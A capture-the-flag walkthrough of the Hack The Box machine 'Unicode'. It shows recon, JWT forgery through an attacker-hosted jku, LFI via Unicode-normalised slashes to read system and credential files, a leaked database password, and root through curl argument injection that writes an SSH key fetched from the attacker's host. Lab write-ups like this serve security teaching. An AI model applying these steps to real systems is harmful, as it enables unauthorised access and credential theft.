

# Unicode

First as usual, `nmap`.

```
# Nmap 7.92 scan initiated Sun Nov 28 10:48:07 2021 as: nmap -vvv -p 22,80 -sCV -oA init 10.129.241.150
Nmap scan report for 10.129.241.150
Host is up, received syn-ack (0.30s latency).
Scanned at 2021-11-28 10:48:15 +07 for 17s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fd:a0:f7:93:9e:d3:cc:bd:c2:3c:7f:92:35:70:d7:77 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC2tldCNzbxK22LE6gPT7x5wliLZL0gLpI9BHO8qz1I7EIL7ygZ0vLk7tZ5JtDFvkdJiMfsbluCGZTpnHuFUY620uPgYEdfYu+RcTH97ldEyio6GKNkhGN+MRi8swttVWFr24sGGU4FEjhQTBG8/aivffqn+w0yksEIQCmXbh/y4xo5MBLeh/n0tMm67e/wrjUg3Y8zDCXXNVpNWzZMtyR8cThY/adlk1F8TatvcHOzG/MC4Xg16B9qjJ1CzJmztbIHpRRe64ow9vdiO6ofyVroiazMkMaE6ltWEl5XC4rKurbD2DySFDUdRr8QT3aAQpNYNPNU2Q9hJYUN1gKZAUCg0mMUmBIbQXyiKiq/b5JGGLPhUkoD6Pl2WjE60D+3ZnNqW8jabBMzUotwi6KdJ5v4HvJiNxNrzjQRpNCJ6rBhIFOUqZQHBsDsFiyOSLXEPpYnNhG502TGELiHOFuK15QMh9CqCZn9PvwIiACTyeet9NdUyHtxHT8gklpnHdNSXY8=
|   256 8b:b6:98:2d:fa:00:e5:e2:9c:8f:af:0f:44:99:03:b1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNpOPaB/e8Wk54u5TO7EABpkTxMt6Mz10v02RBzyUPJyzpXi1eC8X2VvIpCngtg4Uvbv07ZEm72Tb9S6IoJ/8MI=
|   256 c9:89:27:3e:91:cb:51:27:6f:39:89:36:10:41:df:7c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAID/Us0SuyKOvqEgu/XGps4fVOmhy+iczFKeIrtjRWxUN
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Hackmedia
|_http-favicon: Unknown favicon MD5: E06EE2ACCCCCD12A0FD09983B44FE9D9
|_http-generator: Hugo 0.83.1
| http-methods:
|_  Supported Methods: HEAD GET OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Nov 28 10:48:32 2021 -- 1 IP address (1 host up) scanned in 24.70 seconds
```

We can try running `gobuster`.

```sh
$ gobuster dir -u http://10.129.241.150/ -w ~/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
Error: the server returns a status code that matches the provided options for non existing urls. http://10.129.241.150/7909f276-e09d-4a84-bc87-6a4cf4d42114 => 200 (Length: 9294). To continue please exclude the status code or the length
```

However, it doesn't work, so I tried fuzzing with `ffuf` filtering by response size instead of status code. The word list I used is a combination of `SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt` and `SecLists/Discovery/Web-Content/raft-medium-words.txt`.

```sh
$ ffuf -u http://hackmedia.htb/FUZZ/ -w words -fs 9294
.                       [Status: 200, Size: 2078, Words: 363, Lines: 69, Duration: 332ms]
banner_red              [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 8783ms]
checkout                [Status: 200, Size: 8208, Words: 2312, Lines: 220, Duration: 307ms]
dashboard               [Status: 200, Size: 86263, Words: 7879, Lines: 4525, Duration: 330ms]
display                 [Status: 302, Size: 234, Words: 21, Lines: 4, Duration: 448ms]
filenotfound            [Status: 200, Size: 9389, Words: 1311, Lines: 517, Duration: 1297ms]
internal                [Status: 200, Size: 15, Words: 2, Lines: 2, Duration: 285ms]
login                   [Status: 200, Size: 86263, Words: 7879, Lines: 4525, Duration: 361ms]
logout                  [Status: 302, Size: 220, Words: 21, Lines: 4, Duration: 420ms]
pricing                 [Status: 200, Size: 10027, Words: 2173, Lines: 225, Duration: 323ms]
register                [Status: 200, Size: 86609, Words: 8047, Lines: 4529, Duration: 333ms]
static                  [Status: 403, Size: 162, Words: 4, Lines: 8, Duration: 301ms]
```

Note that right on the front page is a big button with `/redirect/?url=google.com` so we might be able to do SSRF (Server-side Request Forgery).

Looking at the page, we can register and login, so we'll do just that. After logging in, we get an `auth` cookie which is a JWT. Decoding the JWT gives us the domain name `hackmedia.htb` which we can add to our `/etc/hosts`. However, visiting `http://hackmedia.htb/` instead of using the IP doesn't seem to return anything different.

I tried fuzzing for other subdomains.

```sh
$ ffuf -u http://hackmedia.htb/ -H 'Host: FUZZ.hackmedia.htb' -w ~/tools/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -fs 2078
```

However, that doesn't give anything new.

Going back to the `ffuf` directory fuzzing results, 2 of them are interesting: `display` and `internal`. `/display/` just redirects us to `/unauth_error/` which shows us an HTTP 401 error due to being unauthorized. `/internal/` just gives us `NoneType: None`. I then tried fuzzing for parameters.

```sh
$ ffuf -u 'http://hackmedia.htb/internal/?FUZZ=test' -w ~/tools/SecLists/Discovery/Web-Content/burp-parameter-names.txt -fs 15
```

However, that gives us nothing.

Looking around, we have another interesting page: `/upload/`. Looking at the page's source code, it looks like `.pdf` and `.doc` files are accepted. Trying to upload a file whose name doesn't end with `.pdf` would just return a "502 Bad Gateway" error so we need the `.pdf` extensions in our uploads. Additionally, trying to upload a file with a `.doc` extension returns `file not allowed` instead of the error message.

Looking back at the `auth` cookie (I'm using `jwt-tool`), the JWT contains some interesting info.

```
Token header values:
[+] typ = "JWT"
[+] alg = "RS256"
[+] jku = "http://hackmedia.htb/static/jwks.json"

Token payload values:
[+] user = "a"
```

The `jku` points to a jwks we can download. Since it seems possible to provide our own `jku`, I looked it up on [hacktricks](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens#jku) and followed the exploit.

First, generate some keys.

```sh
openssl genrsa -out keypair.pem 2048
openssl rsa -in keypair.pem -pubout -out publickey.crt
openssl pkcs8 -topk8 -inform PEM -outform PEM -nocrypt -in keypair.pem -out pkcs8.key
```

Then we extract the `n` & `e` from the public key with the following script.

```python
from Crypto.PublicKey import RSA
fp = open("publickey.crt", "r")
key = RSA.importKey(fp.read())
fp.close()
print("n:", hex(key.n))
print("e:", hex(key.e))
```

Running that gives us hex values but we need them base64-encoded so I encoded it in [CyberChef](https://gchq.github.io/CyberChef/) with the recipe `From Hex -> To Base64` and put the resulting `n` & `e` in `jwks.json`.

I then generated a JWT on [jwt.io](https://jwt.io/) with `keypair.pem` & `publickey.crt` as the private & public key respectively.



I then set up an HTTP server with `python3 -m http.server` and change the `auth` cookie to the new JWT and go to `/dashboard/` and got admin's dashboard.

Looking around, we can see that we have `/display/?page=monthly.pdf` so I tried LFI. Just `/etc/passwd` and `../../../../../../../etc/passwd` simply give us the "404 not found" page though. Since the machine's name is "Unicode", I followed [the hacktricks page for Unicode normalization](https://book.hacktricks.xyz/pentesting-web/unicode-normalization-vulnerability) and used `%ef%bc%8f` in place of `/` and successfully got `/etc/passwd`.


```sh
$ curl 'http://hackmedia.htb/display/?page=..%ef%bc%8f..%ef%bc%8f..%ef%bc%8f..%ef%bc%8fetc%ef%bc%8fpasswd' -H '<snipped>'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:117:MySQL Server,,,:/nonexistent:/bin/false
code:x:1000:1000:,,,:/home/code:/bin/bash
```

Since we know from the `nmap` results that the web server is running `nginx`, I grabbed `/etc/nginx/sites-enabled/default`.

```
limit_req_zone $binary_remote_addr zone=mylimit:10m rate=800r/s;

server{
#Change the Webroot from /home/code/app/ to /var/www/html/
#change the user password from db.yaml
	listen 80;
	error_page 503 /rate-limited/;
	location / {
                limit_req zone=mylimit;
		proxy_pass http://localhost:8000;
		include /etc/nginx/proxy_params;
		proxy_redirect off;
	}
	location /static/{
		alias /home/code/coder/static/styles/;
	}
}
```

It seems from the comments that we have `db.yaml` somewhere so I tried to find it to hopefully get some credentials. With some probing, I found `/home/code/coder/db.yaml`.

```yaml
mysql_host: "localhost"
mysql_user: "code"
mysql_password: "B3stC0d3r2021@@!"
mysql_db: "user"
```

With those credentials, we can SSH in as `code`.

Checking our `sudo` privileges ...

```sh
code@code:~$ sudo -l
Matching Defaults entries for code on code:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User code may run the following commands on code:
    (root) NOPASSWD: /usr/bin/treport

code@code:~$ file /usr/bin/treport
/usr/bin/treport: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f6af5bc244c001328c174a6abf855d682aa7401b, for GNU/Linux 2.6.32, stripped
```

We can run `/usr/bin/treport` as root without a password. I want to analyze the binary so I downloaded it to my machine and opened it in `r2`. However, as the binary is stripped, it's very hard to analyze so I just went back to the box and tried running it. When choosing to download a file with option 3, we can use `File://` to grab a local file. Note that `File` needs a capital `F` as just `file://` won't work for whatever reason, I'm guessing a filter for `file://`. I simply downloaded `/root/root.txt` to get the flag and used option 2 to read it. I also grabbed `/root/.ssh/id_rsa` and tried to SSH in as `root` but it seems to be password-protected and I couldn't crack the password.

I tried listening for the request by `/usr/bin/treport` with `nc -lnvp 8000` and the `User-Agent` reveals that `curl` is being used. After some testing, I found that command injection can be used by using `{File:///etc/passwd,-o,/tmp/test}` which expands the elements inside `{}` into arguments for `curl`. Knowing that we can write files, I wrote my SSH key by having the program download `{LHOST:8000/id_rsa.pub,-o,/root/.ssh/authorized_keys}` and SSH-ing in as root.
